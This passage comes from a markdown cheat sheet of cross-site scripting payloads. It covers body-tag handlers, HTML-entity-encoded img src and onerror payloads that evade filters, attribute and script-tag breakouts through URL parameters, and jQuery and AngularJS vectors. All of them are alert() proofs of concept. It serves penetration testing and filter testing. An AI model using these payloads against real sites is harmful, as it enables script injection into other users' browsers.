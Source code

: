### Body Tags

```bash
<body onload=alert(/XSS/.source)>
<body background="javascript:alert(1)">
```

### HTML Entity

Reference: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode)

```html
<!-- <img src=javascript:alert('XSS')> -->
<img src=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<!-- onerror="javascript:alert('XSS')" -->
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### Others

```txt
" onmouseleave='alert(1)'">

javascript:alert(1)
\"-alert(1)//

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```

To find tags, events and payloads for XSS, we can see [Port Swigger's XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

<br />

## Payloads - JQuery

```txt
https://example.com/#<img src=1 onerror=alert(1)>
<iframe src="https://example.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

<br />

## Payloads - AngularJS

If you find **`<html ng-app>`**, **`<body ng-app>`** or **`<div ng-app>`** in the HTML source code, you may be able to abuse it by XSS.
